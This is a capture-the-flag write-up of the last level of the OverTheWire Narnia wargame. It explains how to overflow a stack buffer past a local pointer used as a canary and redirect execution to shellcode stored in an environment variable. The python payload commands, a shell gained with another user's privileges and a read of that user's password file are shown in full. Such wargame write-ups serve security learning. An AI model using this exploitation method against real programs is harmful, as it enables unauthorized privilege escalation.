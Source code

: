 I'll admit, this one had me stumped for quite a while. At first glance this
looks like a straightforward buffer overflow, I should be able to store some
shellcode in an environment variable, overflow the return address of `func`,
and jump to it. However, because `blah` is a local variable of `func`, it
resides on the stack which means that if we overflow `bok`, we'll start writing
into the address stored in `blah` before we can overwrite the return address.
Unfortunately, also because `blah` is a local variable, its position on the
stack isn't fixed and will depend on the environment variables, and string we
pass to the binary. Let's start by just naively overflowing `bok`.

{% highlight bash %}
narnia8@melinda:/tmp/negativemelody$ /narnia/narnia8 `python -c 'print "A"*200'`
AAAAAAAAAAAAAAAAAAAAA�
narnia8@melinda:/tmp/negativemelody$ /narnia/narnia8 `python -c 'print "A"*200'` | xxd
0000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0000010: 4141 4141 41d7 ffff 020a                 AAAAA.....
{% endhighlight %}

The program didn't segfault, but we did get some interesting output - the
contents of the `bok` buffer with the address `blah` appended to the end. This
address acts as a sort of canary - we need to write the correct value here or
the loop will stop and we won't be able to overwrite `eip`. We can see here
that we've overwritten the least significant byte of the address of `blah`.

{% highlight bash %}
narnia8@melinda:/tmp/omnipotentotter$ /narnia/narnia8 `python -c 'print "ABCDEFGHIJKLMNOPQRST"+"\x91\xd8\xff\xff"+"A"*12+"BBBB"'`      
ABCDEFGHIJKLMNOPQRST��AAAAAAAAAAAABBBB��
Segmentation fault
{% endhighlight %}

After some trial and error, I was able to generate a segfault at an address I
control. Using the same environment variable shellcode as the previous
challenge, I can pass its address in place of `BBBB`. 

{% highlight bash %}
narnia8@melinda:/tmp/omnipotentotter$ /narnia/narnia8 `python -c 'print "ABCDEFGHIJKLMNOPQRST"+"\x97\xd7\xff\xff"+"A"*12+"\xf1\xd8\xff\xff"'`
ABCDEFGHIJKLMNOPQRST��AAAAAAAAAAAA����
$ id
uid=14008(narnia8) gid=14008(narnia8) euid=14009(narnia9) groups=14009(narnia9),14008(narnia8)
$ cat /etc/narnia_pass/narnia9
XXXXXXXXXX
{% endhighlight %}

Success, and that's the end of the [Narnia] wargame.


[Narnia]: http://overthewire.org/wargames/narnia/
[OverTheWire]: http://overthewire.org
[pwntools]: https://github.com/Gallopsled/pwntools
